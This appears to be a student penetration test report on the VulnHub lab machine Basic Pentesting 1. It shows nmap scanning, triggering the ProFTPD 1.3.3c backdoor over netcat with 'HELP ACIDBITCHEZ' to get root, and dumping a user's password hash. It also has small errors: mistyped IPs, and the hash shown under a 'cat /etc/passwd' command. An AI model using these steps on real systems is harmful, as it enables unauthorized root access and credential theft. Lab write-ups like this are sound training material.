





# Basic Pentesting 1 - Penetration Test Report

## Project Information
**Target machine:** Basice Pentesting 1
**Attacker Machine:** Kali Linux 
**Methodology:** Black-box penetration testing

The target machine **Basic Pentesting 1** was acquired from **VulnHub**, a publicly available platform with intentionally vulnerable machines to practice hands-on hacking skills *legally*

---

## Objective

The objective of this penetration test was to:
- Discover active hosts
- Identify active ports and services
- Enumerate vulnerabilities
- Exploit identified vulnerabilities
- Gain unauthorized system access
- Demonstrate proof of compromise
---

## Lab Environment

| Machine | Role | IP Address |
|---------|------|------------|
| Kali Linux | Attacker | 192.168.56.101 |
| Basic Pentesting 1 | Target | 192.168.56.103 |

Both machines were configured on the same Host-Only Network using VirtualBox. 
Below is the screenshot for the two machines, attacker machine on the left and target machine on the right.


---

## Methodology
1. Reconnaissance
2. Enumeration
3. Vulnerability Discovery
4. Exploitation
5. Post-Exploitation
6. Documentation

---

## Scope

This test focused only on the target machine: 
```bash
192.168.56.103
```
No other systems were targeted.
---

## Phase 1: Host Discovery
The first step was to discover active hosts on the network
The attacker machine IP was identified using:

```bash
ip a
```
The network range was determined to be:
```code
192.168.56.0/24
```

A ping scan was performed using Nmap to discover active hosts
```bash
nmap -sn 192.168.0/24
```

#### Scan Results
Active hosts discovered:
```code
192.168.56.100
192.168.56.102
192.168.56.103
```
The attacker machine IP was:
```bash
192.168.56.102
```
The remaining host was identified as the target machine:
```bash
192.168.56.103
```

The target machine was successfully identified and confirmed reachable.

The following screenshot shows active hosts discovered on the network:


---

## Phase 2: Port Scanning and Service Enumeration
**Command Used:** 
```bash
nmap -sC -sV -oN target.txt 192.168.56.100-103
```
**Command Explanation**
- -sC -> Runs default NSE scripts for basic enumeration
- -sV -> Detects service versions
- -oN -> Saves output to a file (in this case the file is *target.txt*)
- 192.168.56.103 -> Target machine IP

---

#### Scan Results
The scan revealed two open ports:
| PORT | STATE | SERVICE | VERSION |
|------|-------|---------|---------|
|21/tcp| open |   ftp   |ProFTPD 1.3.3c|
|22/tcp| open | ssh     |OpenSSH 7.2p2 Ubuntu|

---

#### Service Analysis
Two services were discovered:

**FTP Service (Port 21)**
- Service: ProFTPD
- Version: 1.3.3c
- This version is known to contain a backdoor vulnerability

**SSH Service (Port 22)**
- Service: OpenSSH
- Version: 7.2p2
- Used for secure remote login

The FTP service running ProFTPD was identified as a potential entry point for exploitation.

The following screenshot shows ports discovered and services running on the target machine:


---

## Phase 3: FTP Enumeration and Vulnerability Discovery
Since FTP was identified as a potential entry point, further enumeration was performed using Nmap NSE scripts.

The following command was used:
```bash
nmap -p21 --script ftp-* -oN ftp_enum.txt 192.168.56.103
```

**Command Explanation**
- -p21 -> Targets FTP port only
- --svript ftp-* -> Runs all FTP related enumeration scripts
- -oN -> Saves output to a file (ftp_enum.txt)

**Enumeration Results**

ftp-proftpd-backdoor: This installation has been backdoored. <br/>
Command: id <br/>
Results: uid=0(root) gid=0(root)



---

#### Vulnerability Analysis

Through the use of 'searchsploit', ProFTPD service was found to contain a backdoor.
This vulnerability allows remote attackers to execute system commands without authentication.
This results in complete system compromise.

Below is a screenshot on this:


---

#### Vulnerability Verification
The vulnerability was verified using netcat:
```bash
nc 192.168.56.103 21
```
Backdoor activation was done using the command:
```bash
HELP ACIDBITCHEZ
```
Command execution was confirmed using:
```bash
whoami
```
Output:
```bash
root
```
The FTP service was cobfirmed vulnerable to a backdoor allowing unauthorized remote root command execution.
The screenshot below confirms the presence of the ProFTPD backdoor vulnerability.



---

## Phase 4: Exploitation

After confirming the FTP service was vulnerable, the backdoor was exploited to gain remote root access.
A connection was established using netcat:
```bash
nc 192.168.103 21
```
The backdoor was activated using:
```bash
HELP ACIDBITCHEZ
```
This enabled remote command execution.

---

**Proof Of Command Execution**

The following comand was executed:
```bash
whoami
```
Output:
```bash
root
```
This confirmed successful root-level access.

---

**Additional Verification**
The following command was executed to confirm privilages:
```bash
id
```
Output:
```bash
uid=0(root) gid=0(root)
```
This confirms full administrative access to the sysytem.

---

The target machine was successfully compromised and full root access was obtained without authentication.

The following screenshot shows successful root access via the FTP backdoor (the second command).


---


## Phase 5: Post-Exploitation

After gaining root access, post exploitation activities were performed to assess the full impact of the compromise
---

### User Enumeration
The following command was executed to identify system users:
```bash
cat /etc/passwd
```
This revealed multiple system accounts and aregular user account:
```bash
marlinspike
```
---

### Credential Dumping

The following command was executed to extract password hashes:
```bash
cat /etc/passwd
```
Output:
```bash
...
marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/
```

---

### Analysis

The password hash uses SHA-512 hashing.
This confirms:
- Full access to sensitive system files
- Ability to extract user credentials
- Complete system compromise

### Impact Assessment

An attacker with this level of access can:
- Read senditive files
- Modify System configurations
- Create backdoor accounts
- Maintain persistent access
- Fully controll the system

### Conclusion
Post-exploitation activities confirmed full system compromise and access to sensitive credential data

The screenshot below shows extracted password hashes from the compromised system:




